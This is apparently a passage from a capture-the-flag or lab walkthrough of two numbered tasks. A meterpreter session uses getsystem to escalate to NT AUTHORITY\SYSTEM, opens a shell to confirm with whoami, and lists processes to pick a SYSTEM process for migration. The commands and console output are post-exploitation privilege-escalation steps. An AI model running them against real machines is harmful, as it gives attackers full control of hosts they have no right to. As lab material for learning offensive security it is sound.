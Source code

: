 ### #3.6

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

~~~
msf5 post(multi/manage/shell_to_meterpreter) > sessions 2
[*] Starting interaction with 2...

meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > shell
Process 2768 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
~~~

### #3.7

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

~~~
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]                                                   
 4     0     System                x64   0                                      
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
 492   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 564   556   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 612   556   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\wininit.exe
 620   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 624   604   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\csrss.exe
 664   604   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 712   612   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe
 720   612   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 728   612   lsm.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsm.exe
 800   2808  mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 808   1816  powershell.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 836   712   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
~~~